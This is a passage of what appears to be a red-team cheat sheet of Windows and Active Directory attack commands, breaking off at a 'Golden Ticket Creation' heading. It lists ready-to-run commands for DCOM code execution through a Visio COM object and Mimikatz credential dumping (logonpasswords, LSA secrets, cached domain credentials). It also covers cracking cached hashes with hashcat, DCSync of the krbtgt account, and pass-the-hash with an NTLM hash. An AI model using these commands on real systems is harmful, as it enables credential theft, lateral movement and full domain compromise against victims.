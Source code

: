```
    Get-WmiObject Win32_LogicalDisk | Where-Object {($_.DriveType -eq 2) -and ($_.DeviceID -ne 'A:')} | %{"USB_PROCESS_DETECTED: " + $_.ProviderName  + "`n"}
```

Random Execution Method

```
$visio = [activator]::CreateInstance([type]::GetTypeFromProgID("visio.application", "system1"))
$docs = $visio.Documents.Add("")
$docs.ExecuteLine('CreateObject("Wscript.Shell").Exec("cmd.exe")')
```

### Mimikatz

https://github.com/gentilkiwi/mimikatz/wiki
https://adsecurity.org/?p=2362

Dump Cleartext Credentials

```
    sekurlsa::wdigest
    sekurlsa::logonpasswords
    lsadump::secrets
```

Dump cached domain credentials

```
    lsadump::cache
```

Format mscachev2 as `$DCC2$10240#username#hash`

```
    cat 'mscachecreds.txt' | awk -F “:” {'print "$DCC2$10240#"$1"#"$2'}
```

Crack mscachev2 format with Hashcat (extremely slow)

```
    ./hashcat -m 2100 -a 0 mscachev2.dump ./wordlists/* -r rules/dive.rule
```

DCSYNC - Remote Hash Dumping from a Domain Controller

```
    mimikatz lsadump::dcsync /user:domain\krbtgt
```

- There is also a CS built-in function for this
- Source: http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

Pass the Hash

```
    mimikatz sekurlsa::pth /user:localadmin /domain:. /ntlm:21306681c738c3ed2d615e29be1574a3 /run:powershell -w hidden
```

Golden Ticket Creation (File)
